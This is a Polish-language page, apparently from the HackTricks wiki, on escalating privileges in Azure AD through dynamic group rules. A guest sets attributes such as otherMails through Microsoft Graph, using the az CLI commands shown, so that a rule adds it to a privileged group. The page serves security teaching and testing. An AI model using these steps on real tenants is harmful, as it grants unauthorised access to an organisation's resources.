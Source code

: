 # Az - Dynamic Groups Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Podstawowe informacje

**Dynamiczne grupy** to grupy, które mają skonfigurowany zestaw **reguł**, a wszyscy **użytkownicy lub urządzenia**, które pasują do reguł, są dodawani do grupy. Za każdym razem, gdy **atrybut** użytkownika lub urządzenia jest **zmieniany**, dynamiczne reguły są **ponownie sprawdzane**. A gdy **nowa reguła** jest **tworzona**, wszystkie urządzenia i użytkownicy są **sprawdzani**.

Dynamiczne grupy mogą mieć przypisane **role Azure RBAC**, ale **nie jest możliwe** dodanie **ról AzureAD** do dynamicznych grup.

Ta funkcja wymaga licencji Azure AD premium P1.

## Privesc

Należy zauważyć, że domyślnie każdy użytkownik może zapraszać gości w Azure AD, więc, jeśli reguła **dynamicznej grupy** przyznaje **uprawnienia** użytkownikom na podstawie **atrybutów**, które mogą być **ustawione** w nowym **gościu**, możliwe jest **utworzenie gościa** z tymi atrybutami i **eskalacja uprawnień**. Gość może również zarządzać swoim własnym profilem i zmieniać te atrybuty.

Uzyskaj grupy, które pozwalają na dynamiczne członkostwo: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Przykład

- **Przykład reguły**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
- **Opis reguły**: Każdy użytkownik gość z drugim adresem e-mail zawierającym ciąg 'security' zostanie dodany do grupy

Dla adresu e-mail użytkownika gościa, zaakceptuj zaproszenie i sprawdź bieżące ustawienia **tego użytkownika** w [https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Niestety strona nie pozwala na modyfikację wartości atrybutów, więc musimy użyć API:
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
## Odniesienia

- [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{{#include ../../../../banners/hacktricks-training.md}}
